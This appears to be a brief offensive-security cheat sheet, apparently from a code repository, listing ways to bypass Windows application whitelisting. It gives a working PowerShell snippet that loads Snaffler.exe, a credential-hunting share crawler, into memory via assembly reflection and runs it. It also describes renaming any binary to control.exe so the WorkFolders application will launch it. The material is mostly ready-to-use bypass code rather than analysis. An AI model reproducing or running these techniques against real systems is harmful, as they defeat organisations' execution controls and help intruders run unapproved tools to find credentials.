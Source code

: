 # Application Whitelisting Bypasses
## PowerShell Assembly Reflection
```
# This technique can in some cases be used to bypass application whitelisting
# The following example runs the tool Snaffler.exe with the argument -s
[byte[]]$bytes = get-content -encoding byte -path C:\Users\username\Desktop\Snaffler.exe
$asm = [System.Reflection.Assembly]::Load($bytes)
$vars = New-Object System.Collections.Generic.List[System.Object]
$vars.Add("-s")
$passed = [string[]]$vars.ToArray()
$asm.EntryPoint.Invoke($null, @(,$passed))
```   
## Using WorkFolders
You can use the Workfolders application in Windows to run any binary in the current directory after renaming it to "control.exe":
![](screenshot.png)

